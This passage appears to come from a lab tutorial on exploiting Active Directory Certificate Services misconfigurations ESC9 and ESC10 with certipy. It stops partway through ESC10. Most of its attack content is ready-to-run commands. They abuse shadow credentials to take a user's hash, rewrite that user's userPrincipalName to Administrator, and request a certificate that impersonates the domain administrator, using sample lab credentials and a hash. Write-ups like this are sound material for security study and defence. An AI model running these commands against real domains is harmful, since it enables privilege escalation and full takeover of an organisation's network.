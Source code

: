 ### Exploitation of ESC9

In this scenario, we'll assume that the Domain User attacker has GenericWrite privileges on the user Jdoe.

First utilize shadow credentials to obtain Jdoe's hash:

```
certipy shadow auto -username attacker@lab.lan -password 'P@ssw0rd' -account jdoe
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/8d227499-8a7e-464c-bb1c-08bd2c986120)

Next, change Jdoe's userPrincipalName to Administrator, purposefully leaving out the Domain

```
certipy account update -username attacker@lab.lan -password 'P@ssw0rd' -user jdoe -upn Administrator
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/ae78c583-4f91-4848-8d12-2d67fc1fac99)

Then, request a certificate as Jdoe which actually gives us a certificate as the Administrator:

```
certipy req -username jdoe@lab.lan -hashes e19ccf75ee54e06b06a5907af13cef42 -ca lab-CA -template ESC9 -target 192.168.1.3
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/bd95002b-2949-4d0a-b5be-e933d33eb728)

Finally, revert the UPN of Jdoe back to normal:

```
certipy account update -username attcker@lab.lan -password 'P@ssw0rd' -user jdoe -upn jdoe@lab.lan
```

Note: When utilizing the obtained certificate to authenticate as the Administrator, ensure to use the "-domain" flag, since the Domain was unspecified in the UPN

<br />

### Exploitation of ESC10

For the first avenue of exploitation (StrongCertificateBindingEnforcement == 0), utilize shadow credentials to gain Jdoe's hash

```
certipy shadow auto -username attacker@lab.lan -p P@ssw0rd -a jdoe
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/0001714a-ec6c-4c7b-90ce-3e4ca42e7596)

Then, just like in ESC9, modify Jdoe's UPN to Administrator:

```
certipy account update -username attacker@lab.lan -password P@ssw0rd -user jdoe -upn Administrator
```
